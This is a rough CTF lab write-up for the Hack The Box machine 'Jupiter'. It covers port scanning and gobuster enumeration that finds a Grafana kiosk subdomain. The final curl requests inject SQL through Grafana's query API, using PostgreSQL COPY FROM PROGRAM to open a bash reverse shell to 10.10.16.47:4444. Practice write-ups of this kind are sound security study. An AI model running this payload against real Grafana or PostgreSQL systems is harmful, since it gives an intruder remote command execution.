 PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


![](20230719032339.png)

it shows forbidden pages so that means theere is a way to be authenticated

/img                  (Status: 301) [Size: 178] [--> http://jupiter.htb/img/]
/css                  (Status: 301) [Size: 178] [--> http://jupiter.htb/css/]
/js                   (Status: 301) [Size: 178] [--> http://jupiter.htb/js/]
/fonts                (Status: 301) [Size: 178] [--> http://jupiter.htb/fonts/]
/Source               (Status: 301) [Size: 178] [--> http://jupiter.htb/Source/]
/sass                 (Status: 301) [Size: 178] [--> http://jupiter.htb/sass/]

got a subdomain

$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u jupiter.htb -t 50 --append-domain
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://jupiter.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/07/19 06:23:34 Starting gobuster in VHOST enumeration mode
===============================================================
Found: kiosk.jupiter.htb Status: 200 [Size: 34390]
Progress: 4989 / 4990 (99.98%)
===============================================================
2023/07/19 06:24:08 Finished

we reach a kiosk place

![](20230719074017.png)

At http://kiosk.jupiter.htb/api/datasources

```
0	
id	1
uid	"YItSLg-Vz"
orgId	1
name	"PostgreSQL"
type	"postgres"
typeName	"PostgreSQL"
typeLogoUrl	"public/app/plugins/datasource/postgres/img/postgresql_logo.svg"
access	"proxy"
url	"localhost:5432"
user	"grafana_viewer"
database	""
basicAuth	false
isDefault	true
jsonData	
database	"moon_namesdb"
sslmode	"disable"
readOnly	false
```

```
curl --location 'http://kiosk.jupiter.htb/api/ds/query' --header 'Content-Type: application/json' --data '{"queries":[{"refId":"A","datasource":{"uid":"YItSLg-Vz","type":"postgres"},"rawSql":"CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/10.10.16.47/4444 0>&1\"'", "format":"table","datasourceId":1, "maxDataPoints":60000,"intervalMs":940,}],"range":{"from":"2023-06-07T19:30:00.000Z","to":"2023-06-07T01:30:00.000Z", "raw":{"from":"now-6h","to":"now}},"from":"","to":""}'
```

adding a slash in front
```
curl --location 'http://kiosk.jupiter.htb/api/ds/query' --header 'Content-Type: application/json' --data '{"queries":[{"refId":"A","datasource":{"uid":"YItSLg-Vz","type":"postgres"},"rawSql":"CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \\"bash -i >& /dev/tcp/10.10.16.47/4444 0>&1\\"'", "format":"table","datasourceId":1, "maxDataPoints":60000,"intervalMs":940,}],"range":{"from":"2023-06-07T19:30:00.000Z","to":"2023-06-07T01:30:00.000Z", "raw":{"from":"now-6h","to":"now}},"from":"","to":""}'
```
![](20230720000926.png)

